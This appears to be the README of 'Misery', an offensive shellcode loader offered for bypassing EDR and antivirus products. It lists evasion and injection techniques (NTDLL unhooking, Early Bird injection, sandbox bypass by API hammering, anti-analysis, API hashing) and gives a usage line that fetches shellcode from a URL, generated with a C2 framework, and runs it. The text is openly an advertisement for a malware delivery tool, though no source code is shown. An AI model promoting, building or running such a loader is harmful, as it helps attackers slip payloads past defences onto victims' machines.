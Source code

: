 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass (Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
   * ❤️ Developed by sorahed with lots of love
---
## 🆘 Usage
### 📁 Generate the payload with the c2 of your choice(*.bin)
### ⚔️ Misery.exe --shellcode \<URL/shellcode.bin>





